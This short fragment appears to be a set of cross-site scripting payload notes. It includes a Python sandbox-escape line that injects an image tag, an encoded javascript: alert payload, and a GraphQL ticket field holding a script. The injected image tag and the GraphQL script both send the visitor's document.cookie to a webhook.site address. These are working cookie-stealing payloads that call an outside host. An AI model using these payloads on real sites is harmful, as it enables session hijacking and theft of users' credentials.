 but = dict.__base__.__subclasses__()[363]("buttons")
but.element.innerHTML= '<img src="https://webhook.site/f202667e-9179-425d-80c1-fd62da5915d4?'+but.element.ownerDocument.cookie+'">'
%26%2302java%26%23115cript:alert(document.domain)
# XSS via GraphQL

"saveTicket": {
            "id": "92c42a44104091e9cfc8",
            "issue": "<script> fetch('https://webhook.site/REDACTED?c='+ btoa(document.cookie)); </script>",
            "__typename": "Ticket"
        }